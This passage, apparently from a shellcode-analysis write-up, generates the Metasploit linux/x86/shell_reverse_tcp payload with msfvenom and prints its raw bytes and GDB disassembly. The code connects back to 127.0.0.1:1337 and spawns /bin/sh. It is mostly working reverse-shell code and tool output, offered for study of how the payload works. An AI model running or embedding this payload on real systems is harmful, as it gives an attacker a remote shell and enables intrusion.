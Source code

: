 Now a text document named HelloWorld.txt should be created in the folder.

___

## linux/x86/shell_reverse_tcp
As the last payload I wanto analyze the linux/x86/shell_reverse_tcp to have a look how it is different then my reverse shell from assignment 2.

``` c
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -f C –platform linux -a x86
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
Final size of c file: 311 bytes
unsigned char buf[] = 
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\x7f\x00\x00\x01\x68"
"\x02\x00\x05\x39\x89\xe1\xb0\x66\x50\x51\x53\xb3\x03\x89\xe1"
"\xcd\x80\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
"\x52\x53\x89\xe1\xb0\x0b\xcd\x80";
```

We will jump direclty in the GDB disassembly which is the following:
``` assembly
0x0804c040 <+0>:	xor    ebx,ebx
0x0804c042 <+2>:	mul    ebx
0x0804c044 <+4>:	push   ebx
0x0804c045 <+5>:	inc    ebx
0x0804c046 <+6>:	push   ebx
0x0804c047 <+7>:	push   0x2
0x0804c049 <+9>:	mov    ecx,esp
0x0804c04b <+11>:	mov    al,0x66
0x0804c04d <+13>:	int    0x80
0x0804c04f <+15>:	xchg   ebx,eax
0x0804c050 <+16>:	pop    ecx
0x0804c051 <+17>:	mov    al,0x3f
0x0804c053 <+19>:	int    0x80
0x0804c055 <+21>:	dec    ecx
0x0804c056 <+22>:	jns    0x804c051 <code+17>
0x0804c058 <+24>:	push   0x100007f
0x0804c05d <+29>:	push   0x39050002
0x0804c062 <+34>:	mov    ecx,esp
0x0804c064 <+36>:	mov    al,0x66
0x0804c066 <+38>:	push   eax
0x0804c067 <+39>:	push   ecx
0x0804c068 <+40>:	push   ebx
0x0804c069 <+41>:	mov    bl,0x3
0x0804c06b <+43>:	mov    ecx,esp
0x0804c06d <+45>:	int    0x80
0x0804c06f <+47>:	push   edx
0x0804c070 <+48>:	push   0x68732f6e
0x0804c075 <+53>:	push   0x69622f2f
0x0804c07a <+58>:	mov    ebx,esp
0x0804c07c <+60>:	push   edx
0x0804c07d <+61>:	push   ebx
0x0804c07e <+62>:	mov    ecx,esp
0x0804c080 <+64>:	mov    al,0xb
0x0804c082 <+66>:	int    0x80
```
